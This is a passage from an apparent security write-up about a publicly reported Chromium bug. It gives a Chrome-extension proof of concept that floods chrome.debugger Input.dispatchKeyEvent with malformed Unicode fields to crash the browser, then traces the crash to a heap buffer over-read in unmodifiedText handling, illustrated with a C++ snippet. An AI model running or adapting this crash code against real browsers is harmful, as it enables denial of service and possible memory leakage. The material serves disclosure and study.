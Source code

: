 ```javascript
var atabid;
chrome.windows.create({ url: "about:blank", type: "normal" }, (w) => {
  atabid = w.tabs[0].id;
  chrome.debugger.attach({ tabId: atabid }, "1.3", function () {
    setInterval((g) => {
      chrome.debugger.sendCommand({ tabId: atabid }, "Input.dispatchKeyEvent", {
        type: unescape("keyDown"),
        modifiers: -1,
        TimeSinceEpoch: -129,
        text: unescape("%uA8E9%5E%uD866%uDD5E"),
        unmodifiedText: unescape("%uD834%uDD6F%uDB43%uDD46"),
        keyIdentifier: unescape("%26%3D%uDB40%uDCF6%u0660"),
        code: unescape("%7C%uE468"),
        key: unescape("%uC79B%uD84A%uDFF9%uD834%uDD66%uDB42%uDDE5%uD85E%uDFD1"),
        windowsVirtualKeyCode: -128,
        nativeVirtualKeyCode: 16,
        autoRepeat: false,
        isKeypad: false,
        isSystemKey: false,
        location: 4096,
        commands: ["≤áÄí-"],
      });
    }, 100);
  });
});
```

Once we were able to reliably crash the browser it turned out to be an upstream
issue and so it was reported to them. The bug report is now public and you can
see it [here](https://bugs.chromium.org/p/chromium/issues/detail?id=1276331).

# What Happened
The bug is due to `unmodifiedText` (line 11 in the last screenshot) was handled
in the browser process without taking account of null termination which lead to
a
[heap buffer overflow](https://learn.microsoft.com/cpp/sanitizers/error-heap-buffer-overflow?view=msvc-170#example---classic-heap-buffer-overflow)
(read), as [caseq@](https://bugs.chromium.org/u/2585305731/) (assigned to this
bug) mentions: “…That said, this may lead to us sending a piece of browser
memory into renderer.”

Let’s take a closer look:

```cpp
#include <uchar.h>
#include <stdio.h>
#include <string>

int main(void)
{
    char16_t char16[] = u"ABCD";
    std::u16string text16(u"ABCD");
    printf("size of char16 = %zu\n", sizeof char16 / sizeof *char16);
    printf("size of text16 = %zu\n", text16.size());
    
}
```
Out:
```
PS C:\Users\test\Desktop\mkhtbr> ./test.exe
size of char16 = 5
size of text16 = 4
```
